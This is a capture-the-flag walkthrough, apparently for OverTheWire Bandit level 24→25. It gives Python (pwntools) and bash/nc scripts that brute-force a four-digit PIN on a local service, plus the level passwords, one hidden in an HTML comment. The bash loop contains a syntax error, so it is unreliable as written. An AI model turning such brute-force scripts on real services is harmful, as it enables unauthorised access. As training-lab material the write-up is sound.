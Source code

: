 Let's delve into the next challenge level.

![untitled](ScreenShots/Level%2024%20->%2025.jpg)

As per the challenge requirements, we need to employ brute force to exhaustively try all possible keys ranging from 0 to 9999 in order to ascertain the password for advancing to the subsequent level.

---
As customary, we have two approaches at our disposal:
1. Python Script:
    ```python
    from pwn import *
    for i in range(10000):
        conn = remote('localhost', 30002)
        conn.recvuntil("\n")
        data = b"VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar " + str(i).encode()
        conn.sendline(data)
        response = conn.recvline()
        conn.close()
        if b"Wrong! Please enter the correct pincode. Try again." in response:
            print("Failed: ", i)
        else:
            print("Key: ", i)
            if response.strip():
                print("Unexpected response:", response.strip())
            break
    ```
2. Bash Script:
    ```bash
    for i in {1..9999}
    do
        echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar "$i
    done; | nc localhost 30002
    ```
The correct key is `9015`, which is obtained through both methods.  
Subsequently, upon acquiring the password, we can exit the current SSH session and proceed to connect to the subsequent level as follows:
```bash
Command: `ssh -p 2220 bandit25@bandit.labs.overthewire.org`
#Password: Password obtained from the brute force attack
```
<!-- Password: `p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d` -->